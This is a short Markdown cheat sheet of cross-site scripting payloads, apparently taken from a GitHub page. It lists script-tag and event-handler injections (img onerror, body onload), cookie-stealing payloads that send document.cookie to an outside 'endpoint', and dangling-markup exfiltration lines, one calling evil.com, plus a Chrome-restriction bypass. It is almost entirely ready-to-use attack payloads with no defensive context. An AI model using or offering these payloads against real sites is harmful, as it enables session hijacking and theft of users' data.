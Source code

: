 # Cheat Sheet XSS
## Execute code
### XSS without filters
```html
<script>alert()</script>
```
### Bypass script tags
```html
<img src="" onerror="alert()">
<body onload="alert()">
```
## Get cookies from another user
```html
<script>document.location.replace("http://endpoint?cookie="+document.cookie)</script>
<script>document.location.replace("http://endpoint?cookie=".concat(document.cookie))</script>
```
## Data exfiltration
### Dangling Markup
```html
<img src="http://endpoint?data=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```

Bypass Chrome Restrictions:
```html
<table background='//endpoint?data'
```
